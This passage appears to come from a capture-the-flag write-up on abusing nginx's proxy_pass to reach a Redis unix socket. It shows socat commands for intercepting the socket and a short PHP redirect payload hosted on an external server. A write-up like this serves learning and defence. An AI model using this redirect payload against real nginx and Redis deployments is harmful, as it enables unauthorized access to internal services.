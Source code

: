 If we look at the `proxy_pass` directive of nginx, we learn that it is possible to interact directly with unix sockets! And this is very interesting, since the configuration of redis has been done in such a way that the redis socket is exposed in the docker! The syntax to do this is quite special: `http://unix:/<path to socket>`. 

Since we are going to interact with the socket, we will have to see what happens when we try to connect to it, for this I will use the socat binary as a TCP proxy:

```bash
cd /var/run/redis/
mv redis.sock redis.sock.original
socat -t100 -x -v UNIX-LISTEN:/var/run/redis/redis.sock,mode=777,reuseaddr,fork UNIX-CONNECT:/var/run/redis/redis.sock.original
```

On an external server, we can create the following PHP script to exploit the vulnerable nginx configuration:

```php
<?php
header("HTTP/1.1 302");
header("Location: http://unix:/var/run/redis/redis.sock");
```

On our socat proxy, we can see the connection being made:
